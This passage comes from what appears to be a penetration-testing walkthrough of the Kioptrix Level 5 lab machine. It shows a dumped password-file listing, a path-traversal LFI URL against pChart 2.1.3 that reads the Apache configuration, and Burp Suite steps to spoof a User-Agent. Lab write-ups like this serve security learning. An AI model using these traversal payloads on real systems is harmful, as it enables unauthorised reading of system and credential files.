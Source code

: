 ```
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
mysql:*:88:88:MySQL Daemon:/var/db/mysql:/usr/sbin/nologin
ossec:*:1001:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecm:*:1002:1001:User &:/usr/local/ossec-hids:/sbin/nologin
ossecr:*:1003:1001:User &:/usr/local/ossec-hids:/sbin/nologin
```

After further enumeration nothing else was found that would help us get a shell
from port 80.

Next an attempt to troubleshoot port 8080 is made. The reason for 403 error
needs to be found. For that access to web serverâ€™s configuration file is needed.

We know that the target runs BSD. After reading FreeBSDâ€™s apache [manual](
https://www.freebsd.org/doc/en/books/handbook/network-apache.html), the
following LFI URL is crafted:

<http://192.168.20.148/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2f/usr/local/etc/apache22/httpd.conf>

From httpd.conf the following information obtained about port 8080:
```
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

It seems like only Mozilla4 browser is allowed to browse the website on that
port.

### Further Web Port Enumeration (Port 8080)

Burpsuite can be used to change the User-Agent to Mozilla/4.0 (Proxy -> Options) for every http
request as per screenshot below.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/burp1.png?raw=true)

Once the setting is on the intercept mode can be turned off.

